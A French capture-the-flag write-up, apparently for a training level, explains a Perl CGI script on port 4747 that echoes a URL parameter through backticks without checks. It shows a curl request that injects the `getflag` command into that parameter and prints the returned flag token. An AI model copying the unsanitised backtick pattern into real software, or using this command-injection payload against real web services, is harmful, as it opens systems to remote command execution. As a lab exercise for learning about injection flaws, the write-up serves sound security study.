 On trouve dans le dossier **home** un fichier perl nommé **level04.pl** contenant le code suivant :
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};						# Permet de mettre un parametre
print "Content-type: text/html\n\n";	# Affiche sous forme HTLM
sub x {									# Fonction x
  $y = $_[0];							# Prend le premier parametre
  print `echo $y 2>&1`;					# Echo le parametre
}
x(param("x"));							# Appelle la fonction
```

On comprend donc que le perl va s'exécuter si l'on va sur la page IP:4747,
de plus il prend un paramètre (grâce à l'url) x, qu'il va **echo**.

<pre><code>> curl IP:4747?x=test
test
</code></pre>

On se rend compte qu'il n'y a pas de verification spéciale par rapport au paramètre, nous essayons donc d'injecter une commande :

<pre><code>> curl IP:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
</code></pre>
> On échappe les **`** pour éviter de mettre le retour de la commande **getflag**, l'objectif est que la commande s'éxecute au moment du **echo**